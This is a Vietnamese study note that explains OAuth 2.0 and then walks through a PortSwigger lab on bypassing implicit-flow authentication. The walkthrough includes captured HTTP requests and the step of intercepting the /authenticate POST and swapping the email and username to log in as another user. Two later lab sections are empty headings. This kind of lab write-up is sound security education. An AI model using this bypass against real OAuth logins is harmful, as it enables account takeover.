# OAuth 2.0 authentication vulnerabilities
## OAuth là gì?
OAuth là một framework ủy quyền phổ biến cho phép các trang web và ứng dụng web yêu cầu quyền truy cập giới hạn vào tài khoản của người dùng trên một ứng dụng khác. Quan trọng là, OAuth cho phép người dùng cấp quyền truy cập này mà không cần tiết lộ thông tin đăng nhập của họ cho ứng dụng yêu cầu. Điều này có nghĩa là người dùng có thể tùy chỉnh dữ liệu họ muốn chia sẻ mà không phải trao toàn quyền kiểm soát tài khoản của mình cho bên thứ ba.

**Lưu ý**\
Mặc dù OAuth 2.0 là tiêu chuẩn hiện tại, một số trang web vẫn sử dụng phiên bản cũ 1a. OAuth 2.0 được viết lại từ đầu thay vì phát triển trực tiếp từ OAuth 1.0. Vì vậy, hai phiên bản này rất khác nhau. Xin lưu ý rằng thuật ngữ "OAuth" trong tài liệu này chỉ đề cập đến OAuth 2.0.

## OAuth hoạt động như thế nào?
OAuth 2.0 ban đầu được phát triển để chia sẻ quyền truy cập vào dữ liệu cụ thể giữa các ứng dụng. Nó hoạt động bằng cách định nghĩa một loạt các tương tác giữa ba bên khác nhau, gồm:

- Ứng dụng khách (Client application): Trang web hoặc ứng dụng web muốn truy cập dữ liệu của người dùng.
- Chủ sở hữu tài nguyên (Resource owner): Người dùng có dữ liệu mà ứng dụng khách muốn truy cập.
- Nhà cung cấp dịch vụ OAuth (OAuth service provider): Trang web hoặc ứng dụng kiểm soát dữ liệu của người dùng và quyền truy cập vào dữ liệu đó. Họ hỗ trợ OAuth bằng cách cung cấp API để tương tác với cả máy chủ ủy quyền và máy chủ tài nguyên.

Có nhiều cách khác nhau để quy trình OAuth có thể được triển khai, gọi là "luồng" OAuth (OAuth flows) hoặc "loại cấp quyền" (grant types). Trong chủ đề này, chúng ta sẽ tập trung vào hai loại grant phổ biến nhất là authorization code và implicit. Về cơ bản, cả hai loại này đều bao gồm các bước sau:

- Ứng dụng khách yêu cầu quyền truy cập vào một phần dữ liệu của người dùng, chỉ định loại grant mà họ muốn sử dụng và loại quyền truy cập mà họ cần.
- Người dùng được yêu cầu đăng nhập vào dịch vụ OAuth và cho phép rõ ràng quyền truy cập được yêu cầu.
- Ứng dụng khách nhận được một mã truy cập (access token) duy nhất để chứng minh rằng họ đã được người dùng cho phép truy cập dữ liệu. Cách thức nhận mã này phụ thuộc vào loại grant.
- Ứng dụng khách sử dụng mã truy cập này để thực hiện các cuộc gọi API để lấy dữ liệu liên quan từ máy chủ tài nguyên.

Trước khi tìm hiểu cách OAuth được sử dụng cho xác thực, điều quan trọng là phải hiểu các nguyên tắc cơ bản của quy trình OAuth này.

### Cách xác thực của OAuth
Mặc dù ban đầu không được thiết kế cho mục đích này, OAuth đã phát triển thành một phương tiện để xác thực người dùng. Ví dụ, bạn có thể quen thuộc với tùy chọn mà nhiều trang web cung cấp để đăng nhập bằng tài khoản mạng xã hội thay vì phải đăng ký mới. Mỗi khi bạn thấy tùy chọn này, có khả năng nó được xây dựng trên OAuth 2.0.

Với các cơ chế xác thực OAuth, quy trình OAuth cơ bản vẫn tương đối giống nhau; điểm khác biệt chính là cách ứng dụng khách sử dụng dữ liệu mà nó nhận được. Từ góc độ người dùng, kết quả của xác thực OAuth trông giống như đăng nhập một lần dựa trên SAML (SAML-based single sign-on - SSO). Trong tài liệu này, chúng ta sẽ tập trung vào các lỗ hổng trong trường hợp sử dụng giống như SSO này.

Xác thực OAuth thường được triển khai như sau:

- Người dùng chọn tùy chọn đăng nhập bằng tài khoản mạng xã hội. Sau đó, ứng dụng khách sử dụng dịch vụ OAuth của trang mạng xã hội đó để yêu cầu quyền truy cập vào một số dữ liệu mà nó có thể sử dụng để xác định người dùng, chẳng hạn như địa chỉ email được đăng ký với tài khoản của họ.
- Sau khi nhận được mã truy cập (access token), ứng dụng khách yêu cầu dữ liệu này từ máy chủ tài nguyên, thường từ một endpoint `/userinfo` dành riêng.
- Sau khi nhận được dữ liệu, ứng dụng khách sử dụng nó thay cho tên người dùng để đăng nhập. Mã truy cập mà nó nhận được từ máy chủ ủy quyền thường được sử dụng thay cho mật khẩu truyền thống.

---

## 1. Authentication bypass via OAuth implicit flow
https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow

Với bài này, nó sẽ gửi 1 request đến 1 bên OAuth thứ 3 `oauth-0af900fb042049ab8410707902f3007c.oauth-server.net` để xin cấp phát:
```http
GET /auth?client_id=dfa2o82nz4nnbkijz5za3&redirect_uri=https://0a4900ba0451496d84a272d100a4000d.web-security-academy.net/oauth-callback&response_type=token&nonce=-1229839116&scope=openid%20profile%20email HTTP/2
Host: oauth-0af900fb042049ab8410707902f3007c.oauth-server.net
Cookie: _session=ZAxtL98s9SGAnAFMWCBLN; _session.legacy=ZAxtL98s9SGAnAFMWCBLN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
```
Nó sẽ tạo 1 token để cấp phiên đăng nhập

Sau đó gửi 1 request nữa để xác định người dùng cần xác thực: 
```http
POST /authenticate HTTP/2
Host: 0a4900ba0451496d84a272d100a4000d.web-security-academy.net
Cookie: session=tidGM54jJkZw2sJXH3qNuJCbg5GXwyjE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a4900ba0451496d84a272d100a4000d.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 111
Origin: https://0a4900ba0451496d84a272d100a4000d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"YKQy5WI49aKlDU2dJ2Hsx2KlhZxWvCjXctEccIu-s2J"}
```

Ở phần này ta sẽ đổi `email` và `username` để đăng nhập với `username` khác

Các request chuyển hướng sẽ liên tục vì vậy dùng `intercept` để bắt lại quá trình này và sửa đổi ở request POST sau đó. 

---

Khi thiếu parameter `state` hoặc `state` rỗng, thì có thể tấn công như 1 cuộc tấn công CSRF thông thường 

## 2. Forced OAuth profile linking
https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking







---

## 3. OAuth account hijacking via redirect_uri
https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri





